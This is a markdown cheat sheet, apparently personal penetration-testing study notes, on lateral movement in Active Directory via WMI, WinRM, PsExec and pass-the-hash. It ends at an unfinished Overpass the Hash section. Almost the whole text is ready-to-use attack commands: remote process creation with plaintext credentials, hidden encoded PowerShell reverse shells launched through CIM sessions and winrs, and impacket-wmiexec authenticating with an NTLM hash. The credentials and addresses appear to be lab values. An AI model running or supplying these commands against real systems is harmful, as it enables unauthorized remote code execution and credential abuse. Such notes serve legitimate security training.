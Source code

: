 # Lateral Movement in AD
## WMI and WinRM
### WMI
RPC(port 135) and higher-range port(19152-65535).
Use `wmi` to launch a calculator:
```powershell
wmic /node:192.168.50.73 /user:jen /password:Nexus123! process call create "calc"
```
Use `New-CimSession` in Powershell(reverse shell):
```powershell
$username = 'jen';
$password = 'Nexus123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$Options = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName 192.168.50.73 -Credential $credential -SessionOption $Options
$Command = 'powershell -nop -w hidden -e JABjAGwAaQBlAG4AdA....';
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
```
### WinRM
port 5986 - HTTPS, port 5985 - HTTP
**Use `winrs` + reverseshell :**
```powershell
winrs -r:files04 -u:jen -p:Nexus123!  "powershell -nop -w hidden -e JABjAGwAaQ..."
```
**Use `New-PSSession`:**
```powershell
$username = 'jen';
$password = 'Nexus123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
New-PSSession -ComputerName 192.168.50.73 -Credential $credential
```
To interact with the session ID 1 we created:
```powershell
Enter-PSSession 1
```
## PsExec
Conditions:
- The user that authenticates to the target machine needs to be part of the Administrators local group.
- The _ADMIN$_ share must be available.
- File and Printer Sharing has to be turned on
```powershell
./PsExec64.exe -i  \\FILES04 -u corp\jen -p Nexus123! cmd
```
## Pass the Hash
*  it requires an SMB connection through the firewall.(Usually port 445)
* Windows File and Printer Sharing feature to be enabled
* Admin share called **ADMIN$** to be available
*  Requires local administrative rights.
Use `wmiexec` in Kali:
```bash
/usr/bin/impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@192.168.50.73
```
## Overpass the Hash
Over abuse an NTLM user hash to gain a TGT -> Use TGT to obtain a TGS.
Demo: